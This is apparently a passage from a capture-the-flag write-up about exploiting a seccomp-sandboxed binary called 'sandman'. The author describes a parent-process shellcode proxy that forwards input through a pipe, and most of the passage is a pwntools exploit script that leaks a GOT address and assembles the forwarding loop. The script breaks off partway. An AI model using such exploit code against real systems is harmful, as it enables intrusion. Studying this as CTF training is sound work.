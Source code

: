 
### The Parent Process Exploit Proxy

Of course we need to proxy our input through the parent process. The parent
process can read and write to stdin, stdout and the child process via the
pipe. So I used a shellcode for the parent process that does the following:

  1. Read a size from stdin. If the size is 0, then loop infinitely.
  2. Allocate size bytes on the stack.
  3. Read size bytes onto the stack.
  4. Write size bytes to the pipefd 4
  5. goto 1

For more details see the python script:

```python
from pwn import *  # NOQA

context.os = 'linux'
context.arch = 'amd64'

vulnbin = "./sandman"
velf = ELF(vulnbin)

# warning this won't work because of seccomp filters!
#sc = asm(shellcraft.amd64.linux.sh())

context.log_level = 'info'

sc64 = shellcraft.amd64
sc = ""
sc += sc64.pushstr("hellooo!")
sc += sc64.write(1, 'rsp', 8)
sc += sc64.write(1, velf.got['read'], 8)
sc += """
    xor rax, rax
    push rax
loop:
    /* read 8 bytes == length */
{}
    pop rax
    /* stop forwarding if zero */
    test rax, rax
    jz end
    /* allocate length bytes on stack */
    sub rsp, rax

    /* read length bytes */
    push rax
    mov rdi, rsp
    add rdi, 8
{}
    pop rax

    /* write length bytes */
    push rax
    mov rdi, rsp
    add rdi, 8
{}
    pop rax

    /* write length bytes  to stdout, for 'debugging' */
    push rax
    mov rdi, rsp
    add rdi, 8
```